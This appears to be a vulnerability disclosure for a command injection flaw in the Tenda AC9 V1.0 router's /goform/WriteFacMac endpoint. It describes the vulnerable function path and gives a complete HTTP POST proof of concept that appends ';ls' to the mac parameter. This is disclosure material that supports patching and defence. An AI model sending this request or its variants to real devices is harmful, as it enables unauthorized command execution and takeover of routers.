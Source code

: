 # Tenda AC9 V1.0 Command Injection Vulnerability in WriteFacMac

## Overview
Tenda AC9 V1.0 Router is a consumer-grade wireless router supporting advanced wireless features, firewall, and device management capabilities. A command injection vulnerability exists in the `formWriteFacMac` function, which handles requests to the `/goform/WriteFacMac` endpoint. Attackers can inject arbitrary system commands via the `mac` parameter, leading to unauthorized device control or complete compromise.
![PoC 2 Result: Root Directory Listing](./imgs/0.png)
## Details
- **Vendor**: Tenda
- **Website**: [https://www.tenda.com.cn/]
- **Product**: Tenda AC9 V1.0 Router
- **Firmware**: V15.03.05.19(6318)
- **Firmware Download**: [https://www.tenda.com.cn/download/detail-2681.html]
- **Endpoint**: `/goform/WriteFacMac`
- **Vulnerability**: Command Injection
- **CVE ID**: Pending
- **Impact**: Execute arbitrary commands, access sensitive files, or gain full control.
- **Reported by**: Anonymous Researcher

### Description
The `formWriteFacMac` function processes POST requests to `/goform/WriteFacMac`. It extracts the user-controlled `mac` parameter via `sub_2B9D4` (a parameter parsing function) and passes it directly to `doSystemCmd`. In `doSystemCmd`, the parameter is interpolated into a system command (e.g., `cfm mac %s`) without any input sanitization. The command is executed directly on the system. By injecting special characters (e.g., `;`), attackers can escape the command context and execute arbitrary system commands on the router.
![PoC 2 Result: Root Directory Listing](./imgs/1.png)
## Proof of Concept (PoC)

### PoC 1: Execute `ls` Command
```
POST /goform/WriteFacMac HTTP/1.1
Host: 192.168.xxx.xxx
Cache-Control: max-age=0
Accept-Language: en-US,en;q=0.9
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/129.0.6668.71 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Accept-Encoding: gzip, deflate, br
Cookie: password=rfl1qw
If-Modified-Since: Sun Aug 10 12:46:43 2025
Connection: keep-alive
Content-Length: 24
mac=00:01:02:11:22:33;ls
```
![PoC 2 Result: Root Directory Listing](./imgs/2.png)
